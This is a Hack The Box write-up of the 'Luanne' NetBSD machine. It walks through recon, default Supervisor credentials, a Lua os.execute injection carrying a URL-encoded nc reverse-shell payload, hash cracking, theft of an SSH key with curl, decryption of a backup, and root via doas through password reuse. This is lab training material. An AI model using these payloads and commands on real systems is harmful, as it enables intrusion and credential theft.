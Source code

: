 # Hack the Box - Luanne


<div style="text-align:center">Write-up of Luanne - Difficulty : Easy </div>

<!--more-->

>Rest satisfied with doing well, and leave others to talk of you as they will.  
>  
> -Pythagoras  

## 1. Overview

Luanne is a NetBSD box running a vulnerable lua web app.  
The app is also being served out of a user's home directory.  
A backup on the computer contains the root password for the box.  



## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 9001 are open.

``` bash 
 nmap -sC -sV -p- -T4 10.129.120.184
```

![nmap](nmap.png)

  
Looks like nmap found a disallowed site at /weather on the robots.txt file as well as Supervisor running on port 9001.

### 2.2 Websites
#### 2.2.1 Supervisor
Next we'll go check out port 10.129.120.184:9001 in a browser and we get prompted for a username/password.  
After doing some research into Supervisor default configs we can find that the default credentials of **user:123** will allow us to authenticate to the website.  

![gem](supervisor1.png)

If we go to processes we can see something running from **r.michaels** home directory. It appears to be that weather site that nmap found earlier.  

![proc](processes.png)

#### 2.2.2 Weather

After that we head on over to 10.129.120.184/weather and it doesn't resolve to anything.  
If we fuzz for web directories we find **/forecast**.  
![ff](ffuf.png)  

If we browse to this site we are greeted with a message that no city is specificed and we should use "city=list" to list all available options.  Upon doing so by adding **?city=list** to the end of our request we can choose any city and get the weather forecast for it.

Now that we know how to get the script to work we google for lua rce exploits and find a usefule article by [SyHunt](https://www.syhunt.com/pt/index.php?n=Articles.LuaVulnerabilities).

## 3. Foothold

Upon reading the article we find that **os.execute** might allow us to have our code executed on the remote system. After some simple tests we wind up with our reverse shell code that we need to URL encode and pass through the browser. Before sending it we start our reverse shell with **nc -lvnp 3001**.
``` http
http://10.129.120.184/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ftest%3Bmkfifo%20%2Ftmp%2Ftest%3Bcat%20%2Ftmp%2Ftest%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.88%203001%20%3E%2Ftmp%2Ftest%22%29--)
```
![lua](lua.png)

With that we wind up with a shell as **_httpd**.

## 4. User

Since there's a website running the first thing to check is **/var/www** and luckily for us there's a hidden file **.htpasswd** that contains credentials for **webapi_user**.  

![web](htpasswd.png)  

After we copy that hash to our box we can run hashcat against it.  

![hash1](hashcat.png)  

We can use these credentials to authenticate to the server on port 3001 and steal r.michales ssh key.  

```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
```
![curl](curlssh.png)

There is a backups folder in our user's home directory where we find **devel_backup-2020-09-16.tar.gz.enc**. If we google NetBSD .enc files it brings us to the [netpgp manual pages](https://man.netbsd.org/netpgp.1).  
With the help of the man pages we can decrypt this backup and look at it.  
```
netpgp --decrypt /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/test.tar.gz
gunzip /tmp/test/tar.gz
tar -xvf /tmp/test.tar
```
![tar](backup.png)  

Just like how we found the previous webapi-user password we can find the backup password in **.htpasswd**.

![pas](htpasswd2.png)  

Following the same steps as before we can crack it with hashcat.  
![hah](pass2.png)

## 5. Root

If you're familiar with NetBSD there is the **doas** command which acts as an more easily configurable version of **sudo**.  Since sudo is not a known command on this box if we try to run **doas sh** we are prompted for a password.  As with all pentests you should always re-use passwords you find since passwords are commonly used for multiple accounts, against security guidance. Upon entering the password we just found we are granted a shell as root.  
![root](root.png)

## Conclusion

1. Host web apps from the proper directories. 
2. Ensure your backups are properly protected or stored off system.
3. Do not re-use passwords for accounts.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

